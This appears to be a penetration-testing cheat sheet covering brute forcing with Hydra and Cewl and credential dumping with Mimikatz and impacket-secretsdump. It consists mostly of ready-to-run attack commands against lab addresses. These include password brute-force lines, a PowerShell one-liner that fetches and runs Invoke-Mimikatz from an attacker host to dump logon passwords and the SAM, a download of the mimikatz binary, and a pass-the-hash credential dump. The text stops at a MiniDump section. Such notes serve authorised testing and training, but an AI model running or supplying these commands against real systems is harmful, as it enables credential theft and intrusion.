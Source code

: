 # Brute Forcing
## Hydra

HTTP-Post-Form
```bash
hydra -l dj -P /usr/share/wordlists/rockyou.txt 10.11.1.128 -s 4167 http-post-form "/loginform.asp:uname=^USER^&psw=^PASS^:Internal server error."
```
Bruteforce FTP with variable usernames and passwords
```bash
hydra -L users.txt -P /opt/SecLists/Discovery/Web-Content/raft-small-words.txt 192.168.225.46 ftp -V -f
```

## Cewl

Custom wordlists from webpages etc.
```bash
cewl -w cewl_passlist.txt -d 5 10.11.1.39/otrs/index.pl
```

# Credential Dumping
## Mimikatz

Fileless execution via PowerShell
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.151/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"'
```

Transferring Mimikatz binary via PowerShell
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.250/mimikatz.exe', 'C:\Users\Administrator\Documents\mk.exe')
```

## Secretsdump

Remotely dump credentials using the NTLM hash of administrator to authenticate to target.
```bash
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:08df3c73ded940e1f2bcf5eea4b8dbf6 bob@10.11.1.1
```

## Rundll32 MiniDump

MiniDump is a useful technique to have in the back of your mind in case any issues arise with Mimikatz (some versions do not work on newer Windows machines). This outputs a DMP file to Temp. This can be processed with `pypykatz` locally on the attacking machine.
